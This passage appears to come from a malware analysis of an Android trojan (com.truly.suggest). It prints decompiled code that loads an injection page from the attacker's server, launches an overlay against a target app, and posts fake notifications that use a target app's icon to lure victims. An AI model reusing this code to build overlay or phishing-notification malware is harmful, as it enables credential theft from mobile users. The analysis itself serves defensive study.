 ```cs

        WebView webView0 = (WebView)this.dialog.findViewById(0x7F020000);
        webView0.setWebViewClient(new WebViewClient());
        webView0.loadUrl(this.store.get(this, "URL") + "push.php?pkg=" + this.pkg);
        ((LinearLayout)this.dialog.findViewById(0x7F020003)).setOnClickListener((/* MISSING LAMBDA PARAMETER */) -> {
            if(ActivityWebViewPush.this.dialog.isShowing()) {
                ActivityWebViewPush.this.dialog.dismiss();
            }

            ActivityWebViewPush.this.Tools.startInj(ActivityWebViewPush.this, ActivityWebViewPush.this.pkg);
            ActivityWebViewPush.this.finishAndRemoveTask();
        });
        this.dialog.setCanceledOnTouchOutside(true);
        this.dialog.show();
        Utils.playNotification(this, 1, false);

        class com.truly.suggest.ActivityWebViewPush.1 implements View.OnClickListener {
            @Override  // android.view.View$OnClickListener
            public void onClick(View view0) {
                ActivityWebViewPush.this.close(ActivityWebViewPush.this.dialog);
            }
        }

    }
```

But what if the user didn't opened any targeted apps? Here is the trick, The malware can push a fake notification contains some text for example ` there's something wrong in your account and you need to check` something to lure the user and the icon of a targeted app so that the user opens the target app. This way the malware makes sure that the user will open the app.

```cs
 protected void onHandleIntent(Intent intent0) {
        try {
            int v = (int)System.currentTimeMillis();
            NotificationManager notificationManager0 = (NotificationManager)this.getSystemService("notification");
            String s = intent0.getStringExtra("title");
            String s1 = intent0.getStringExtra("content");
            String s2 = intent0.getStringExtra("googleIcon");
            int v1 = s2 == null || (s2.equals("true")) ? 0x7F010001 : 0x7F010000;
            this.Tools.Log(this, "Showing notification, Title: " + s + ", Text: " + s1, Boolean.valueOf(true));
            String s3 = "ch_" + v;
            if(Build.VERSION.SDK_INT >= 26) {
                NotificationChannel notificationChannel0 = new NotificationChannel(s3, s3, 4);
                notificationChannel0.setDescription("channel-description");
                notificationChannel0.enableLights(true);
                notificationChannel0.setLockscreenVisibility(1);
                notificationChannel0.enableVibration(true);
                notificationChannel0.setVibrationPattern(new long[]{100L, 200L, 300L, 400L, 500L, 400L, 300L, 200L, 400L});
                notificationChannel0.setBypassDnd(true);
                notificationChannel0.setShowBadge(true);
                if(notificationManager0 != null) {
                    notificationManager0.createNotificationChannel(notificationChannel0);
                }

                Notification.Builder notification$Builder0 = new Notification.Builder(this, s3).setSmallIcon(v1).setAutoCancel(true).setBadgeIconType(v1).setLargeIcon(BitmapFactory.decodeResource(this.getResources(), v1)).setContentTitle(s).setChannelId(s3).setContentText(s1);
                if(notificationManager0 != null) {
```